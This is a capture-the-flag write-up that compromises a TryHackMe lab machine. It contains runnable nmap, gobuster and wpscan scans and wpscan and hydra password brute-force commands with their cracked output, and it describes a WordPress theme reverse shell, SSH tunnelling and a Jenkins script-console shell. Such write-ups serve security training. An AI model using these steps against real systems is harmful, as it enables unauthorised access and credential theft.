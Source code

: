 # Recon
```
sudo nmap -sV -p- -Pn -oN nmap.txt -O 10.10.23.154
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Internal/assets/1.png">

We run gobuster to discover directories:
```
gobuster dir -u http://10.10.23.154 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```
/blog                 (Status: 301) [Size: 313] [--> http://10.10.23.154/blog/]
/wordpress            (Status: 301) [Size: 318] [--> http://10.10.23.154/wordpress/]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.23.154/javascript/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.23.154/phpmyadmin/]
/server-status        (Status: 403) [Size: 278]   
```

After browsing to http://10.10.23.154/wordpress we find a link to internal.thm.
We add internal.htm to our /etc/hosts so we can see the actual blog.

# Enumeration
We use wpscan to do some enumeration on the CMS.
```
wpscan --url http://internal.thm/blog/ -et -ep -eu
```

We found a user: admin and version 5.4.2, which is not vulnerable.
The theme is out of date. Version 2.3 but current version is 2.8
```
wpscan --url internal.thm/wordpress/ --passwords rockyou.txt --usernames admin --max-threads 50
```
```

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
 ```

After login in the Wordpress page we found a post with:
```
william:arnold147
```

I tried using SSH to connect with these credentials but without any luck.

# Initial Foothold
I know you can use themes pages to create a php reverse shell. I changed 404.php and loaded it by browsing to:
```
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php
```

We got a shell withc user www-data.

We found a config file in /etc/phpmyadmin
```
$dbuser='phpmyadmin';
$dbpass='B2Ud4fEOZmVq';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';
```

And also credentials in /opt/wp-save.txt
```
aubreanna:bubb13guM!@#123
```

We can SSH with aubreanna and got our user flag.
We also find a file called jenkins which tells us that:
```
Internal Jenkins service is running on 172.17.0.2:8080
```

There are no cronjobs running and sudo -l isn't possible.
I tried using ssh tunneling to gain access to the Jenkins service.
```
ssh -L 4445:localhost:8080 aubreanna@10.10.23.154
```

Let's use hydra to bruteforce the login:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 4445 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```
```
[4445][http-post-form] host: localhost   login: admin   password: spongebob
We found a password
```


We go to Manage > Tools and Actions > Script Console
Run reverse shell from
https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6
. Change cmd.exe to bash for linux.

Found file in /opt/ with root pass
```
root:tr0ub13guM!@#123
```

Change user on SSH session with user aubreanna:
```
su root 
```
Got root flag.




